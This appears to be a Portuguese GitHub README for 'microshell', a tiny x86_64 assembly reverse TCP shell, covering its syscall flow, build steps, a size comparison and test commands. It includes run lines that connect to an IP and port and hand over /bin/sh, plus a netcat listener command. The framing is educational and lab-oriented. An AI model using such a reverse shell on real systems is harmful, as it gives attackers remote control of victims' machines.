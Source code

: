 # 🐚 microshell

Shell reverso TCP escrito em Assembly x86_64 puro para Linux.  
Extremamente leve, sem dependências externas, usando syscalls diretas do kernel.

## O que ele faz

Conecta em um IP e porta definidos, redireciona stdin/stdout/stderr, e executa `/bin/sh`.

Ideal para:

- Estudos de engenharia reversa
- Testes de penetração controlados (CTFs, labs)

## ⚙️ Build

```bash
make
```

Requer:

- nasm
- ld (binutils)

## Configuração Dinâmica

O microshell agora suporta configuração dinâmica de conexão:

```bash
# Uso com argumentos
./microshell 192.168.1.100 4444

# Uso com variáveis de ambiente
export REMOTE_IP=192.168.1.100
export REMOTE_PORT=4444
./microshell
```

Sem argumentos ou variáveis, o padrão é `127.0.0.1:4444`.

## 📊 Comparativo de Tamanho

| Implementação | Tamanho | Comparação |
|---------------|---------|------------|
| microshell (Assembly) | 1.2 KB | 1x (referência) |
| C (gcc sem otimização) | ~16 KB | ~13x maior |
| C (gcc -Os) | ~8 KB | ~6.7x maior |
| Python (script) | ~128 bytes | Menor, mas requer interpretador (~10 MB) |
| Go | ~2 MB | ~1,666x maior |
| Rust | ~176 KB | ~146x maior |

*Tamanhos aproximados após compilação/build em x86_64 Linux*

## 🔄 Fluxo de Execução

```
┌──────────────────┐      ┌──────────────────┐      ┌──────────────────┐
│                  │      │                  │      │                  │
│ 1. Criar Socket  │──────▶ 2. Conectar ao   │──────▶ 3. Duplicar      │
│    (syscall 41)  │      │    IP/Porta      │      │    Descritores   │
│                  │      │    (syscall 42)  │      │    (syscall 33)  │
└──────────────────┘      └──────────────────┘      └──────────────────┘
                                                              │
                                                              │
                                                              ▼
┌──────────────────┐                             ┌──────────────────┐
│                  │                             │                  │
│ 5. Esperar       │◀────────────────────────────│ 4. Executar      │
│    comandos      │                             │    /bin/sh       │
│    (loop)        │                             │    (syscall 59)  │
└──────────────────┘                             └──────────────────┘
```

### Detalhes de Implementação

O microshell suporta configuração em três camadas de prioridade:

1. **Argumentos da linha de comando** (maior prioridade)
2. **Variáveis de ambiente** (segunda prioridade) 
3. **Valores padrão** (fallback)

A implementação inclui:
- Função `parse_ip`: Converte string IP (formato a.b.c.d) para o formato binário
- Função `atoi`: Converte string numérica para inteiro
- Função `getenv`: Busca valores de variáveis de ambiente

## Teste

Em um terminal, rode:

```bash
nc -lvnp 4444
```

Em outro:

```bash
./microshell
```

Você receberá uma shell remota interativa

## ⚠️ Disclaimer

Uso exclusivo para fins educacionais e laboratoriais.
Não utilize esse código para atividades não autorizadas.

## Autor

Desenvolvido por [Arthur Mairink](https://github.com/mairinkdev).

## 📁 Estrutura do repositório

```
microshell/
├── microshell.asm     ✅ Código do shell reverso
├── Makefile           🛠️ Para build simples
├── diagram.txt        📝 Diagrama ASCII do fluxo
└── README.md          📘 Documentação pro GitHub
```
